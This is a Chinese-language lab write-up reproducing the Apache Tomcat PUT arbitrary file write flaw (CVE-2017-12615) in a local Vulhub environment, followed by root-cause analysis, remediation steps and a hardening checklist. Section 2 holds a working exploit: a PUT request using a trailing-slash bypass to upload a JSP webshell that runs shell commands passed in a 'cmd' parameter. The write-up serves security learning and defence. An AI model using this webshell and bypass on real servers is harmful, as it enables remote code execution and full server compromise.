


# Tomcat PUT 任意文件写入漏洞（CVE-2017-12615）
> 本文内容仅在个人授权的本地 Vulhub 实验环境中完成，仅用于安全学习与防御研究，不对任何真实系统使用。
## 1. 漏洞标识
- **环境**：Vulhub `tomcat/CVE-2017-12615`
- **漏洞类型**：任意文件写入导致远程代码执行（RCE）
- **影响组件**：Apache Tomcat 7.0.0 - 7.0.79（7.0.81 修复不完全）
- **利用前提**：`conf/web.xml` 中 `DefaultServlet` 的 `readonly` 参数被设置为 `false`，允许 HTTP PUT 请求写入文件。

## 2. 环境与复现
### 2.1 启动环境
```bash
cd 你自己的路径/tomcat/CVE-2017-12615
docker-compose up -d
```
### 2.2 构造 PUT 请求写入文件
浏览器不支持直接发送 PUT 请求，使用 Burp Suite 拦截请求并发送至 Repeater 构造数据包。
**核心利用点**：在文件名末尾添加 `/`（如 `1.jsp/`），Tomcat 的 `DefaultServlet` 在检查后缀时会将其放行，而底层 Linux 文件系统在创建文件时会忽略末尾斜杠，最终生成 `1.jsp` 文件。
构造带有命令回显功能的 JSP 木马请求包：
```http
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 329

<%@ page import="java.io.*" %>
<%
String c = request.getParameter("cmd");
if (c != null) {
  Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", c});
  InputStream in = p.getInputStream();
  int a; byte[] b = new byte[1024];
  while ((a = in.read(b)) != -1) out.write(new String(b, 0, a));
}
%>
```
点击 Send 发送，服务器返回 `201 Created`，说明文件写入成功。

### 2.3 验证命令执行
在浏览器访问 `http://your-ip:8080/1.jsp?cmd=id`，成功回显系统当前用户，证明 JSP 代码被解析并执行，GetShell 成功。


## 3. 漏洞危害 (Impact)
由于攻击者可以直接向 Web 根目录写入可执行的 JSP 文件，该漏洞的危害极高：
1. **服务器完全失陷**：攻击者可上传 Webshell，获取服务器执行权限，进而读取敏感文件、篡改网页、甚至植入勒索软件。
2. **内网横向移动**：失陷的 Web 服务器可作为跳板机，攻击者利用其网络位置和凭证，对内网其他资产发起扫描和攻击。
3. **持久化后门**：攻击者可反复写入恶意脚本，即使管理员修改了密码或重启服务，只要漏洞存在，后门依然可以有效。

## 4. 根因分析
- **直接原因**：`DefaultServlet` 的 `readonly` 参数被设置为 `false`，导致 Tomcat 允许通过 HTTP `PUT` 方法接收并写入文件。
- **逻辑缺陷**：Tomcat 在检查文件后缀（防 `.jsp` 写入）时，存在路径解析逻辑漏洞。通过特殊路径（Linux 下尾部 `/`，Windows 下 `::$DATA` 或尾随空格）可以绕过后缀名校验。
- **系统特性**：检查放行后，底层操作系统在保存文件时会自动处理掉特殊字符（如 Linux 忽略 `/`），最终落盘为 `.jsp` 文件。

## 5. 安全运维视角：修复与验证
### 5.1 修复方案
1. **配置修复（最直接）**：检查 `conf/web.xml` 文件，确保 `DefaultServlet` 的 `readonly` 参数为 `true`（默认即为 `true`），禁止 HTTP PUT 写入。
2. **版本升级**：升级 Tomcat 至 7.0.81 及以上安全版本。
3. **网络层拦截**：在 Nginx 反向代理或 WAF 层，配置规则拦截 `PUT`、`DELETE` 等非必要 HTTP 方法；或拦截包含 `.jsp/`、`.jsp::$DATA` 等恶意特征的请求。
4. **权限收敛**：Tomcat 服务应以低权限用户（如 `tomcat`）运行，避免 Webshell 获取 `root` 权限。

### 5.2 修复验证
- **复测 PUT 写入**：修复后，使用 Burp Suite 再次发送上述 PUT 请求，预期返回 `403 Forbidden` 或 `405 Method Not Allowed`。
- **检查配置**：确认 `conf/web.xml` 中的 `readonly` 值为 `true`。
- **WAF 规则验证**：尝试发送包含 `1.jsp/` 的路径请求，确认被安全设备拦截并产生告警日志。

## 6. 检测与加固检查清单
| 检查项 | 检查方法 | 预期结果 |
|---|---|---|
| PUT 方法是否可用 | 使用 Burp 或 curl 发送 `OPTIONS /` 请求查看 Allow 头，或直接发送 PUT 请求 | 响应中没有 `PUT` 方法，PUT 请求返回 403/405 |
| `readonly` 配置 | 查看 `conf/web.xml` 中 `DefaultServlet` 的初始化参数 | `readonly` 的值为 `true` |
| WAF 拦截规则 | 尝试发送带 `1.jsp/` 或 `1.jsp::$DATA` 的请求 | 请求被阻断，WAF 产生告警 |
| 目录写入权限 | 检查 Tomcat 运行用户是否对 Web 根目录（如 `webapps/`）有写权限 | 除管理员外，不应有全局写权限 |
